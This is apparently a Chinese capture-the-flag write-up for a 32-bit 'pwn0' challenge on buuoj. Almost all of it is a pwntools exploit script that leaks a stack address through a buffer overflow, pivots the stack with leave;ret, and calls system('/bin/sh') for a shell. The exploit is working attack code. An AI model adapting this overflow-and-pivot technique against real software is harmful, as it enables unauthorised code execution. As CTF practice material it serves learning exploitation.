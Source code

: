 Ubantu18环境，这里我用Ubantu16打的

exp:

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=remote("node4.buuoj.cn",27740)
p=process('./pwn0')
elf = ELF('./pwn0')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

system=0x08048400
leak('system',system)
leave_ret=0x080485FD


pl1='a'*0x27+'b'
p.send(pl1) #not sendline
p.recvuntil("b")
ebp=u32(p.recv(4))
leak('ebp',ebp)

s=ebp-0x38
binsh=ebp-0x28

pl2='aaaa'+p32(system)+p32(1)+p32(binsh)+"/bin/sh\00"
pl2=pl2.ljust(0x28,'p')

pl2+=p32(s)+p32(leave_ret)

sl(pl2)

p.interactive()
```
